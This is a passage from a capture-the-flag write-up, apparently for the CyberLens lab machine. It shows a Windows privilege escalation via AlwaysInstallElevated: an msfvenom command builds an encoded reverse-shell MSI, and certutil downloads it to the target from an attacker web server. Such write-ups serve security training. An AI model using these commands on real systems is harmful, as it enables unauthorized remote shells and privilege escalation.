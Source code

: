 ```
               2 Dir(s)  14,916,714,496 bytes free

```

And we can run it with `winPEASx86.exe` .

We find AlwaysInstalledElevated enabled :

<img src="../../Flameshots/a92575f19d8abfd5964a8256ee4de576.png" alt="a92575f19d8abfd5964a8256ee4de576.png" width="673" height="69" class="jop-noMdConv">

We search it on Internet and find we can install **MSI** files with elevated permissions and exploit the machine with a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) l :

### MsfVenom (TCP RevShell)

We copy our [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.8.162.183 LPORT=4444 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: AlwaysInstallElevated.msi

```

Now we go back to our Target and download it with our [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.60.241 - - [12/Jul/2025 13:48:03] "GET /AlwaysInstallElevated.msi HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 13:48:05] "GET /AlwaysInstallElevated.msi HTTP/1.1" 200 -

```

```
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://10.8.162.183:80/AlwaysInstallElevated.msi C:\Users\CyberLens\Desktop\AlwaysInstallElevated.msi                                          
certutil -urlcache -f http://10.8.162.183:80/AlwaysInstallElevated.msi C:\Users\CyberLens\Desktop\AlwaysInstallElevated.msi                                                                     
****  Online  ****                                                                              
CertUtil: -URLCache command completed successfully.

```
